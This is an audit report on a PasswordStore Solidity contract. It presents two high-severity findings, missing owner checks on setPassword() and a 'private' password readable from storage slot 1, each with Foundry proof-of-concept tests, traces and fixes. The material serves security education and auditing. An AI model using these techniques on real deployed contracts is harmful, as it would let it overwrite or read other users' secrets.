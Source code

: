 
# Audit Details
- Scope
    - PasswordStore.sol
- Findings
    - High: 2

## H-01: Anyone can call `setPassword()` function and change the password

### Summary
The PasswordStore contract allows the owner to set the password. When the owner wants to update/change the password, it calls this function again to set it to the new password. However, access control is not in placed and anyone can update/change the password to a new one.

### Vulnerability Details
This function is missing an access control to check if the the msg.sender is `s_owner`. Hence, anyone can call this function and set new password.

*PasswordStore.sol line26*
```
function setPassword(string memory newPassword) external {
    s_password = newPassword;
    emit SetNetPassword();
}
```

### Impact/Proof of Concept
In this PoC, we first use the contract owner's address to set the password as "ownerPassword" and we call `getPassword()` to confirm that it is the same password. After which, we use another arbitrary address to call `setPassword()` to change it. Once it is done, we use the contract's owner address to call `getPassword()` again to show that the password has indeed changed.

```
function test_non_owner_can_set_password() public {
    // Use owner address to set password and then call it to confirm
    vm.startPrank(owner);
    passwordStore.setPassword("ownerPassword");
    passwordStore.getPassword();
    // Change to another arbitrary address and set password to new password
    vm.startPrank(address(1));
    passwordStore.setPassword("thisisnewpassword");
    // Switch back to owner address and call getPassword() to proof that the password has changed
    vm.startPrank(owner);
    passwordStore.getPassword();
}
```
Results:
```
Ran 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_non_owner_set_password() (gas: 26700)
Traces:
  [26700] PasswordStoreTest::test_non_owner_set_password()
    ├─ [0] VM::startPrank(DefaultSender: [0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38])
    │   └─ ← [Return] 
    ├─ [6686] PasswordStore::setPassword("ownerPassword")
    │   ├─ emit SetNetPassword()
    │   └─ ← [Stop] 
    ├─ [3320] PasswordStore::getPassword() [staticcall]
    │   └─ ← [Return] "ownerPassword"
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000001)
    │   └─ ← [Return] 
    ├─ [1886] PasswordStore::setPassword("thisisnewpassword")
    │   ├─ emit SetNetPassword()
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(DefaultSender: [0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38])
    │   └─ ← [Return] 
    ├─ [1320] PasswordStore::getPassword() [staticcall]
    │   └─ ← [Return] "thisisnewpassword"
    └─ ← [Stop] 
```

### Recommendations
Implement access control to this function, such as providing a function modifier that checks if msg.sender is `s_owner`.
```diff
// Modifier to check if if the caller is the owner
modifier onlyOwner {
    require(msg.sender == s_owner);
    _;
}

// Add the function modifer to setPassword() function
+   function setPassword(string memory newPassword) external onlyOwner {
        s_password = newPassword;
        emit SetNetPassword();
    }

```

### Tools Used
- [Foundry](https://github.com/foundry-rs/foundry)



## H-02: `s_password` is not truly private and the data can still be seen by anyone

### Summary
In this contract, the `s_password` variable is stored as a `private` variable which only allows the variable to be accessed from within the contract. However, this assumption does not hold true as the `private` variable is still accessible via other methods.

### Vulnerability Details
*PasswordStore.sol line13*
```
address private s_owner;
string private s_password;
```

We know that smart contract storage slot is 32 bytes each and the variables in this contract are:

- address `s_owner` = 20 bytes
- string `s_password` = dynamic

Hence, we know that `s_owner` will be stored in slot 0, and `s_password` will be stored in slot 1 as string byte size is dynamic and will occupy the next slot. Hence, by calling slot 1 of the contract memory, we will be able to attain the hexadecimal representation of `s_password`.


### Impact/Proof of Concept
To prove that the `s_password` is accessible by anyone, we use Foundry's `vm.load()` method to load `s_password` from slot 1 of the contract address. Thereafter, we convert the hexadecimal value to a string and print the result.
```
function test_non_owner_can_read_password() public {
    bytes32 data = vm.load(address(passwordStore), bytes32(uint256(1)));
    string memory convertedString = string(abi.encodePacked(data));
    console.log("password:", convertedString);
}
```
Results:
```
Ran 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_non_owner_can_read_password() (gas: 9118)
Logs:
  password: myPassword

Traces:
  [9118] PasswordStoreTest::test_non_owner_can_read_password()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000001)
    │   └─ ← [Return] 
    ├─ [0] VM::load(PasswordStore: [0x90193C961A926261B756D1E5bb255e67ff9498A1], 0x0000000000000000000000000000000000000000000000000000000000000001) [staticcall]
    │   └─ ← [Return] 0x6d7950617373776f726400000000000000000000000000000000000000000014
    ├─ [0] console::log("password:", "myPassword\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\u{14}") [staticcall]
    │   └─ ← [Stop] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.95ms (912.52µs CPU time)
```

### Recommendations
Data on the blockchain are not truly secret. When storing data that is sensitive, it is recommended to encrypt the data first or to use off-chain solutions to store these sensitive data instead.

### Tools Used
- [Foundry](https://github.com/foundry-rs/foundry)
